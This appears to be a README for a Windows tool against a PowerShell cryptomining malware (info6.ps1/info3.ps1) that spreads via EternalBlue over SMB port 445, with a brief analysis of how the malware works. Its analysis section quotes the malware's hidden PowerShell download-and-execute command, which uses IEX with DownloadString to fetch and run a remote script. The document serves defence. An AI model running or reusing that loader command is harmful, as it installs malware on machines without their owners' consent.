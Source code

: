 # AntiMining-info6

#### By Carlos Ramírez López

### ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:
1- Performance modification in the computer equipment to "high performance" through the Windows registry.
2- Mining of cryptocurrencies, increasing CPU processing between 70% and 100%.
3- Persistence in infected computers, modifications of Windows variable classes.
4- Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment.

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.

### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
